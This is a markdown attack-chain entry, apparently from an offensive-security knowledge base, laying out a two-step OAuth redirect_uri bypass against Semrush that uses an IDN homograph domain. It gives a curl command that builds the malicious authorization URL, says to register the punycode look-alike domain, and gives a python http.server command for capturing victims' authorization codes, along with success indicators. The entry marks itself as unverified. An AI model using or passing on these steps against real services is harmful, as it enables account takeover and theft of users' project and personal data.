

---
id: ac-semrush-oauth-idn-bypass-001
name: OAuth Redirect URI Bypass via IDN Homograph Attack in Semrush
type: attack_chain
description: Multi-stage attack exploiting Semrush's OAuth implementation flaw using IDN homograph to bypass redirect_uri validation and steal authorization codes for unauthorized account access.
verified: false
submitted: false
step_count: 2
created_at: 2024-09-18T12:00:00Z
updated_at: 2024-09-18T12:00:00Z
procedures: [[procedures/Construct-Malicious-OAuth-Authorization-URL-with-IDN-Homograph]], [[procedures/Approve-OAuth-Flow-and-Capture-Authorization-Code]]
techniques: [[Exploit Public-Facing Application]], [[Valid Accounts]]
tactics: [[Initial Access]]
tags: oauth, idn-homograph, redirect-bypass, account-takeover
platforms: Web
tools: []
complexity: medium
skill_level: intermediate
impact_level: high
---

# OAuth Redirect URI Bypass via IDN Homograph Attack in Semrush

Multi-stage attack chain demonstrating a complete attack workflow exploiting Semrush's OAuth redirect_uri validation flaw via Internationalized Domain Name (IDN) homograph attack. The attacker crafts a visually similar domain using non-Latin characters (e.g., 'šemrush.com') that the backend treats as equivalent to 'semrush.com' without proper normalization, allowing redirection of the OAuth code to an attacker-controlled domain.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 2 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- Web browser for OAuth flow simulation
- Domain registrar supporting IDN (e.g., for registering 'xn--emrush-9jb.com')

### Target Environment

- Web platform with OAuth2 implementation (Semrush OAuth at oauth.semrush.com)
- Required services: OAuth2 authorization endpoint
- Network access requirements: Internet access to Semrush domains and ability to register similar domains

### Initial Access Requirements

- Valid Semrush user credentials for authentication
- Network position: External attacker
- Prior access needed: None, but victim interaction required for approval

## Detailed Attack Procedures

### Step 1: Construct Malicious OAuth URL
procedure: [[procedures/Construct-Malicious-OAuth-Authorization-URL-with-IDN-Homograph]]

**Objective**: Craft an OAuth authorization URL using an IDN homograph in the redirect_uri to trick the backend into accepting an attacker-controlled domain.

**Instructions**: Authenticate to the Semrush account and build the URL with the malicious redirect_uri. Use a browser or tool to visit the endpoint:

```bash
curl -X GET "https://oauth.semrush.com/oauth2/authorize?response_type=code&scope=user.info,projects.info,siteaudit.info&client_id=seoquake&redirect_uri=https://oauth.šemrush.com/oauth2/success" -v
```

The 'šemrush.com' uses the non-Latin 'š' character, punycode: 'xn--emrush-9jb.com'. Register this domain beforehand to control it.

**Expected Output**: The server responds with an approval page, indicating the redirect_uri was accepted without validation error.

**Success Indicators**:
- No redirect_uri validation error in response
- Approval prompt appears for the Semrush application

### Step 2: Approve Flow and Capture Code
procedure: [[procedures/Approve-OAuth-Flow-and-Capture-Authorization-Code]]

**Objective**: Complete the OAuth flow by approving the request, causing the authorization code to redirect to the attacker-controlled domain.

**Instructions**: In the browser, approve the OAuth application access. Monitor the redirect to capture the code:

```bash
# Simulate capture by hosting a simple server on the registered domain or using ngrok for testing
python3 -m http.server 80  # On the attacker server at oauth.xn--emrush-9jb.com
```

Upon approval, the browser redirects to 'https://oauth.šemrush.com/oauth2/success?code=AUTH_CODE', leaking the code.

**Expected Output**: Authorization code visible in the redirect URL query parameter on the attacker-controlled domain.

**Success Indicators**:
- Redirect occurs to the homograph domain
- Authorization code captured for token exchange

## Attack Chain Summary

### Key Achievements

1. Bypassed redirect_uri validation using IDN homograph without backend normalization.
2. Leaked OAuth authorization code to attacker domain.
3. Enabled exchange for access token, granting access to user ID, email, projects, and site audit data.

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]] Exploit Public-Facing Application
- [[Valid Accounts]] Valid Accounts

### MITRE ATT&CK Tactics

- [[Initial Access]] Initial Access

---
*Last updated: 2024-09-18T12:00:00Z*
